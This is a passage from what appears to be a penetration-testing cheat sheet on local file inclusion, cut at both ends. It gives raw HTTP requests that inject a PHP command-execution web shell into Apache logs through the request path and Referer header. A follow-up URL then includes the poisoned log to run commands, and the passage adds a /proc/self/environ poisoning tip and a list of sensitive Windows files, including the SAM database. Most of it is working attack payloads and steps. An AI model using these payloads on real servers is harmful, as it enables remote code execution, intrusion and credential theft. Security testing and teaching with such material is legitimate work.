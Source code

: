     nc 192.168.1.102 80
    GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
    Host: 192.168.1.102
    Connection: close
    
Or in the referer parameter.

    GET / HTTP/1.1
    Referer: <? passthru($_GET[cmd]) ?>
    Host: 192.168.1.159
    Connection: close
    
**Execute it in the browser**

Now you can request the log-file through the LFI and see the php-code get executed.

    http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id

### Proc files

If you can read the proc-files on the system you might be able to poison them through the user-agent.

We can also inject code into /proc/self/environ through the user-agent

[https://www.exploit-db.com/papers/12992/](https://www.exploit-db.com/papers/12992/)

[https://www.youtube.com/watch?v=ttTVNcPnsJY](https://www.youtube.com/watch?v=ttTVNcPnsJY)

### Windows

#### Fingerprinting

    c:\WINDOWS\system32\eula.txt
    c:\boot.ini  
    c:\WINDOWS\win.ini  
    c:\WINNT\win.ini  
    c:\WINDOWS\Repair\SAM  
    c:\WINDOWS\php.ini  
    c:\WINNT\php.ini  
    c:\Program Files\Apache Group\Apache\conf\httpd.conf  
    c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
    c:\Program Files\xampp\apache\conf\httpd.conf  
    c:\php\php.ini  
    c:\php5\php.ini  
    c:\php4\php.ini  
    c:\apache\php\php.ini  
    c:\xampp\apache\bin\php.ini  
    c:\home2\bin\stable\apache\php.ini  
    c:\home\bin\stable\apache\php.ini

#### Logs

Common path for apache log files on windows:

    c:\Program Files\Apache Group\Apache\logs\access.log  
    c:\Program Files\Apache Group\Apache\logs\error.log
